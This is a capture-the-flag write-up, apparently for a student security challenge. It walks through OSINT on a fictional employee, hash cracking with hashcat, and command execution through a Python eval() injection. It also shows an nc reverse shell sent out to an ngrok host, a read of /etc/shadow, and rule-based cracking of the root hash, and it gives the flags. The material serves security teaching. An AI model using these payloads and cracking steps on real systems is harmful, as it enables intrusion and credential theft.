

## Intro
The first-week challenge covers the basics of OSINT research, opening remote connections and password cracking. I will try to cover most of the methods we can use to get through Jack's cat and Ben's secure passwords. Without further ado, let's begin.

## Challenge 1: Web Username
The first one was very tricky for me as I am not a cat person and don't enjoy cat pictures...
Anyway, as we go to the landing page, we can see that there are home(1) and login(2) pages and some information(3) about some employees.


As the challenge is OSINT related, we can try to find some accounts or any information on the internet related to these people. After a little bit of googling, I managed to find [Dixon's Twitter account](https://twitter.com/DixsonVarley). Following the chronology and the contest of the tweets, we can see that Dixon has started working for Insanity Accounting a while after he created his account. From one of the tweets, we can see a picture of his cat... and the username we were looking for on peace of paper under the cat......


`Flag: D.Varley772`

## Challenge 2: Web Hashed Password
The second challenge is more obvious.
If we take a look over this tweet, we can see that Dixon messed up something and decided to share a link with us.


The [link](https://twitter.com/DixsonVarley/status/1431255932445417473) will take us to deleted tweet, but that doesn't mean we can't see it. By using [WayBack](https://archive.org/web/) we can see the content of the tweet.


And we got our second flag.

`Flag: ab353a4eaf482265e7a85cba84422b4ab95fae8a4f5dd2bddea9548d53d1644a`

## Challenge 3: What is Dixson's password?
For challenge 3, we are given a new hash as the one from challenge 2 is incorrect.
To crack the hash we can use either `hashcat`, `johnny`, [CrackStation](https://crackstation.net/), `Cain&Abel`, etc. As `hashcat` is the best password brute force tool, in my opinion, I will use it, but CrackStation will do just fine for this password.
<br />
```
❯ hashid '9a900403ac313ba27a1bc81f0932652b8020dac92c234d98fa0b06bf0040ecfd' -m
Analyzing '9a900403ac313ba27a1bc81f0932652b8020dac92c234d98fa0b06bf0040ecfd'
[+] Snefru-256
[+] SHA-256 [Hashcat Mode: 1400]
[+] RIPEMD-256
[+] Haval-256
[+] GOST R 34.11-94 [Hashcat Mode: 6900]
[+] GOST CryptoPro S-Box
[+] SHA3-256 [Hashcat Mode: 5000]
[+] Skein-256
[+] Skein-512(256)

❯ hashcat -m 1400 -a 0 '9a900403ac313ba27a1bc81f0932652b8020dac92c234d98fa0b06bf0040ecfd' rockyou.txt
```
`Result: 9a900403ac313ba27a1bc81f0932652b8020dac92c234d98fa0b06bf0040ecfd:qwertyuiop`
`Flag: qwertyuiop`

## Challenge 4: User Flag
Great! We have credentials.

```
Username: D.Varley772
Password: qwertyuiop
```

Now we can try logging in.


Sweet! `eval()` = free shell.
By running the following code, we can execute commands on the target machine: `eval('__import__("subprocess").getoutput("<COMMAND>")')`.
<br />
We can get the flag by running `eval('__import__("subprocess").getoutput("cat /home/intern/user.txt")')`, but it would be more interesting if we get bind or reverse shell. There are many different ways of opening any of these shells, but as the system has `nc`, I will go with it.
<br />
So, I will use reverse shell using ngrok to bypass my home router firewall and to keep my public IP private and `pwncat` for more stable shell.
### On our machine
```
ngrok tcp 4444
pwncat -l 0.0.0.0 4444 --self-inject /bin.bash:<NGINX_IP>:<NGINX_PORT>
```
### On the victim's machine
```
eval('__import__("subprocess").getoutput("nc <NGROK_IP> <NGROK_PORT> -e /bin/bash")')
```

And voila! We have a shell. Even if the shell gets closed for some reason (internet drops, we press `Ctl-C` by accident, etc.), the only thing we need to do is to open a new listener (`pwncat -l 0.0.0.0 4444`), and we will get connected.
<br />
The only thing left is to get the user flag.
```
cat /home/intern/user.txt
```
`Flag: cueh{0h...I_gu3ss_y0u_can_r3vers3_shell_via_3val}`

## Challenge 5: Root Flag
Now, on the root flag!
<br />
No further enumeration is required than `cat /etc/shadow`.
```
root:$6$czitf7EkuZDKvo1G$Fzuxy.As6BxQhNyUV0zq9z0ehkb3yhzSAOFekJ1jpf.J3/3wJ.v.ARwzq28tQp2XEI81tl.hb6bWWY29JLxnX0:18891:0:99999:7:::
daemon:*:18799:0:99999:7:::
bin:*:18799:0:99999:7:::
sys:*:18799:0:99999:7:::
sync:*:18799:0:99999:7:::
games:*:18799:0:99999:7:::
man:*:18799:0:99999:7:::
lp:*:18799:0:99999:7:::
mail:*:18799:0:99999:7:::
news:*:18799:0:99999:7:::
uucp:*:18799:0:99999:7:::
proxy:*:18799:0:99999:7:::
www-data:*:18799:0:99999:7:::
backup:*:18799:0:99999:7:::
list:*:18799:0:99999:7:::
irc:*:18799:0:99999:7:::
gnats:*:18799:0:99999:7:::
nobody:*:18799:0:99999:7:::
_apt:*:18799:0:99999:7:::
intern:$6$xZ.biffGBU0sIYTq$zR7sXPuF/RgvqHdL/Hx33N0/z34pEb008DZnRUrkz/9rZfkY7Cu/tbObJYm0DnHTkMnwtcN/mELCLTJKz0ua50:18891::::::
```
Great! We have hashed. Now, we can try some brute-forcing. However, this would get us nowhere unless we pay attention to the `notes` left in the `/home/intern/` directory.
```
Efforts to get the boss to give me the credentials for root on this machine haven't been going well. Luckily I have a pretty good idea of what it could be so I can start guessing it.

Here is what I know

- I know my boss set the password
- He has a cat called Collin
- He has a daughter called Holly
- The password he set for Splunk was h0lly_2001
```
Now we can use this info and hashcat rules to crack the password.
<br />
So, if we already have one password we can use it as a template.
<br />
Let's begin with the names. We can put them into a wordlist.
```
❯ cat < EOF > names.list
> Collin
> collin
> Holly
> holly
> EOF
```
Now we can use a little bit of hashcat-fu and generate a new wordlist from our names. For this purpose, we can use rules. If you are not familiar with hashcat rules, check out their <a href="https://hashcat.net/wiki/doku.php?id=rule_based_attack" target="_blink">documentation</a>
<br />
The rules I am going to use to generate the new wordlist are pretty much going to replace symbols like "s" with "$", "a" with "4", and so on.
That is the content of the file I am going to use:
```
:
l
u
sa4
sa@
sb6
sc<
sc{
se3
sg9
si1
si!
sl1
so0
sq9
ss5
ss$
st7
st+
sx%
sa@sc<se3sl1si1so0ss$
lsa@sc<se3sl1si1so0ss$
usa@sC<sE3sL1sI1sO0sS$
sa@sc<se3sl1so0ss$
lsa@sc<se3sl1so0ss$
usa@sC<sE3sL1sO0sS$
sa@sc<se3si1so0ss$
lsa@sc<se3si1so0ss$
usa@sC<sE3sI1sO0sS$
```
The command to generate it is:
```
hashcat -r rules names.list --stdout > wordlist.list
```
And once we have generated our new wordlist, we can try brute-forcing the password with a <a href="https://hashcat.net/wiki/doku.php?id=mask_attack" target="_blink">mask attack</a> that is going to look like this:
```
hashcat -m 1800 -a 6 hash.txt wordlist.list ?1?2?3?d?d -1 _- -2 12 -3 90
```
This mask will append `-` or `_` to the end of each word with folowing all the ears from `1900` to `2099`.
<br />
After less then a second we will have our result.
`Result: $6$czitf7EkuZDKvo1G$Fzuxy.As6BxQhNyUV0zq9z0ehkb3yhzSAOFekJ1jpf.J3/3wJ.v.ARwzq28tQp2XEI81tl.hb6bWWY29JLxnX0:C0ll1n_1989`
Now we just need the root flag.
Bare in mind that to be able to gain live shell (TTY), you need to run: `/usr/bin/script -qc /bin/bash /dev/null`.
From there:
```
su root
cat /root/you_rooted_me.txt
```
`Flag: cueh{0h...y0u_can_us3_hashcat_rulezz}`

### Hope you have learned something new 😄🐈‍⬛